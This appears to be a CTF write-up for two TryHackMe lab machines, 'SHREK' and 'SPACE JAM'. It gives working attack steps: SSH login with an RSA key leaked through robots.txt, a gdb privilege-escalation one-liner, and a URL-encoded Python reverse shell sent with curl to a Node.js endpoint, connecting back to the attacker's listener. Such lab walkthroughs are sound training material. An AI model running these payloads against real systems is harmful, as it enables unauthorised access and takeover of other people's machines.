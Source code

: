 

#  Machine name: SHREK

    
This is first and relatively easy machine, But beaware this things have too many entries to keep an eye on, Best Idea for defending this is by just killing the shells. Again I am not posting the methods that are 'technically' better, I am posting methods that will be easiest to do and will get you win.
Target is to win while being inside the rules. This is not an exam, there are no wrong answers.
As the saying goes, *If it works, don't touch it.* 

1. Initial gobuster scan revealed that `robots.txt` file contains an abnormal entry, When we navigate to it, we find the entire RSA key.

![image](https://user-images.githubusercontent.com/54495695/81495768-495e6f80-92d0-11ea-8ab8-daab1abe3cf3.png)

2. Copy the key, paste it in a file, give the file necessary permissions.<br />
Assuming you made the RSA key file with the name `id_rsa`, follow these commands.<br />
`chmod 600 id_rsa`<br />
`ssh -i id_rsa shrek@<IP ADDRESS OF MACHINE>`<br />
This will give you a shell to shrek.<br />

3. After scanning the machine with linPEAS.sh, We found tha there is a gdb vulnerabilty in the box, using GTFObins, We use the following commands to do Privilage escalation.<br />
`gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit`<br />
  #### YOU ARE ROOT. NOW DEFEND YOUR TITILE.<br />
    
#  Machine name: SPACE JAM

This machine is race to root kind of thing, There is a very low hanging fruit to get root, But it is a way use only entry, i.e. Whoever uses it first will try his best to destory this entry as it is too open. <br />

1. As always we do the basic nmap scan.<br />
![image](https://user-images.githubusercontent.com/54495695/81496158-2a151180-92d3-11ea-9d72-110073c4fbac.png)

2. We can see port 3000 is hosting Nodejs openly, So we try to get the reverse shell from it.<br />
    To do that, First start a listener on your machine using these commands:<br />
       `ncat -lvnp 4444` // I am using ncat, since I am on a Arch based system, You can use `nc` inplace of ncat.<br />
     Once the listener is ready, we deploy the payload.<br />
3. After testing many payloads we found the one of python to be working, For more payloads, follow this link.<br />
    The payload:<br />
           REPLACE <REMOTE_IP> with the IP of box.<br />
           REPLACE <LOCAL_IP> with the IP of your tryhackme VPN.<br />
   
        curl "<REMOTE_IP>:3000/?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<LOCAL_IP>%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27"
